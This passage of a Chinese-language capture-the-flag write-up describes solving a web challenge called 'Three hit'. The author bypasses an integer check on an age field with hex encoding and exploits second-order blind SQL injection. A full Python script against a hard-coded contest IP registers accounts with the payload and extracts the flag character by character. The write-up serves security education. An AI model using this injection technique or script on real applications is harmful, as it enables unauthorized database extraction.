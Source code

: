 ![](https://ctfwp.wetolink.com/2018qiangwang/6.png)

### Three hit
进去后发现功能很少，猜测二次注入，发现username有正则限制，那么测试age，发现必须整数，这里可以用16进制绕过，测试一番后发现是个盲注

![](https://ctfwp.wetolink.com/2018qiangwang/7.png)

![](https://ctfwp.wetolink.com/2018qiangwang/8.png)

![](https://ctfwp.wetolink.com/2018qiangwang/9.png)

找了个脚本改了下

```
import requests
import binascii

url_register = "http://39.107.32.29:10000/index.php?func=register"
url_login = "http://39.107.32.29:10000/index.php?func=login"
result = '[*]result:'
for i in range(1, 65):
    for j in range(32, 127):
        age = "1223 or ascii(substr((select flag from flag limit 1),{0},1))={1}#".format(str(i), str(j))
        age = binascii.hexlify(bytes(age, 'utf8'))
        age = "0x" + str(age, "utf8")
        username = "pupiles{0}{1}".format(str(i), str(j))
        data = {
            "username": username,
            "password": "123456",
            "age": age
        }
        while True:
            try:
                resp1 = requests.post(url=url_register, data=data, allow_redirects=False)
                break
            except Exception as e:
                continue
        while True:
            try:
                resp2 = requests.post(url=url_login, data=data, allow_redirects=True)
                if "<a>123</a>" in resp2.text:
                    result += chr(j)
                    print(result)
                break
            except Exception as e:
                continue
```
盲注跑出flag

### Wechat
![](https://ctfwp.wetolink.com/2018qiangwang/10.jpeg)
